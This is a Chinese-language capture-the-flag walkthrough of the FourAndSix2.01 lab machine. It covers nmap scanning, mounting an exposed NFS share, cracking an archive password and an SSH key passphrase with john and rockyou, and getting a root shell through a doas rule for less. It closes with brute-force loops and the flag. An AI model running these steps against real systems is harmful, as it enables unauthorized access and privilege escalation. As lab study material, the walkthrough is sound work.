






FourAndSix2.01渗透测试

nmap -sn 192.168.253.00/24  查看靶机地址

nmap -A -p 1-64000 192.168.253.161

这次居然没有80端口，好像是我遇到的第一个同时没有80和8080端口的靶机了，有的是22，111（RPC服务，跨机器共同使用函数或方法），668（NFS的权限验证和连接建立），2049（NFS实际的文件数据操作）端口

showmount -e 192.168.253.161   查询NFS（网络文件共享）的共享目录

发现有一个storage目录

mkdir -p /mnt/nfs_exploit  创建一个名为nfs_exploit的目录
mount -t nfs 192.168.253.161:/home/user/storage /mnt/nfs_exploit  连接远程NFS共享，即可以在/mnt/nfs_exploit目录操作靶机/home/user/storage的文件

cd /mnt/nfs_exploit 进入目录
ls -la  查看有什么文件

发现一个压缩文件，我们把他复制下来
cp backup.7z /tmp/   复制到tmp目录
cd /tmp  进入目录

7z x backup.7z 解压文件

发现需要密码，那我们就要进行破解
7z2john backup.7z > backup.hash  提取hash成一个新文件backup.hash

john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash  进行破解

因为我之前破解过了所以没显示破解过程
john --show backup.hash  显示破解结果

密码是chocolate，巧克力，那我正好从我的零食袋拿一颗来吃
7z x backup.7z -pchocolate 进行解压

ls -lat  按时间排序输出

发现里面有公钥和私钥，这或许是一个突破口，我们试试破解它
chmod 600 id_rsa  为id_rsa赋予600权限，即文件所有者可读可写，同组用户和其他用户无权限访问
cat id_rsa.pub  查看公钥信息

这里最后告诉了我们用户名是user
ssh2john id_rsa > ssh.hash   提取密码hash到ssh.hash文件

john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash  进行破解

同样因为我之前破解过了没显示过程
john --show ssh.hash  显示破解内容

私钥是12345678
ssh -i id_rsa user@192.168.253.161  利用公钥连接到靶机，注意这个公钥连接和普通的ssh连接不一样的，这个是要公钥密码，普通的ssh连接需要用户密码，刚开始我也疑惑为什么我直接用12345678登录不了，后面问ai才知道

输入密码成功登录到靶机
uname -a

find / -perm -4000 -type f 2>/dev/null 2>/dev/null   查找SUID文件，SUID文件是可以以root用户执行的文件

注意到结果有一个doas，这和sudo差不多类型
cat /etc/doas.conf   查看配置内容

发现可以以root身份无密码用less服务访问/var/log/authlog，less是一种文本查看工具
doas /usr/bin/less /var/log/authlog
进入less后按v进入编辑模式，然后输入：！+命令即可
比如：！id

既然他是root权限，那我们执行：！/bin/sh，即以root权限执行这个命令

执行后

提权成功
cat flag.txt

Nice you hacked all the passwords!

Not all tools worked well. But with some command magic...:
cat /usr/share/wordlists/rockyou.txt|while read line; do 7z e backup.7z -p"$line" -oout; if grep -iRl SSH; then echo $line; break;fi;done

cat /usr/share/wordlists/rockyou.txt|while read line; do if ssh-keygen -p -P "$line" -N password -f id_rsa; then echo $line; break;fi;done

Here is the flag:
acd043bc3103ed3dd02eee99d5b0ff42
